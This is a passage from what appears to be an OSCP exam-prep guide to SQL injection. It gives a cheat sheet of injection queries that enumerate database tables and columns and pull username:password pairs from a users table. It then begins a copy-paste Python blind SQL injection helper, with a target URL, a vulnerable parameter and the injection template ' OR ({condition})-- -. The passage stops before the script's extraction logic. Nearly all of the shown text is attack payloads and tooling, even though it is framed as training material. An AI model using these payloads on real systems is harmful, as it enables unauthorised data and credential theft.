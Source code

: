 
### Common Queries

```sql
database()                          # Get database name
@@version                           # Get MySQL version
current_database()                  # PostgreSQL database name
(SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())
(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 0)
(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0)
(SELECT CONCAT(username,':',password) FROM users LIMIT 1 OFFSET 0)
```


***

## The Complete Script with Bug Fixes (REVISED)

Save as `sqli.py`:

```python
#!/usr/bin/env python3
# OSCP-safe SQLi helper (manual boolean/time blind). No auto-discovery.
# REVISED VERSION - Fixed length-delta indicator bug
#
# CHANGE ME QUICK START (or pass flags):
#   URL = "http://TARGET/item.php"              # <— CHANGE ME
#   VULN_PARAM = "id"                           # <— CHANGE ME
#   BASE_VALUE = "1"                            # <— CHANGE ME (safe baseline)
#   TEMPLATE = "' OR ({condition})-- -"         # <— CHANGE ME per DB/payload
#   TRUE_STRING = "Welcome"                     # <— pick one indicator OR set time_threshold
#   TIME_THRESHOLD = None                       # <— e.g., 2.5 for time-based

import argparse, time, re, sys
from typing import Optional

ASCII_MIN, ASCII_MAX = 32, 126

# ---------- CHANGE ME (defaults for copy-paste) ----------
URL = "http://127.0.0.1/vuln.php"
METHOD = "GET"
VULN_PARAM = "id"
BASE_VALUE = "1"
TEMPLATE = "' OR ({condition})-- -"
TRUE_STRING = None
FALSE_STRING = None
TRUE_STATUS = None
MIN_DELTA_LEN = None
TIME_THRESHOLD = None
TIMEOUT = 10.0
# --------------------------------------------------------

import requests

def parse_kv(items):
    out = {}
    for x in items or []:
        if ":" in x:
            k,v = x.split(":",1)
        elif "=" in x:
            k,v = x.split("=",1)
        else:
            continue
        out[k.strip()] = v.strip()
    return out
```
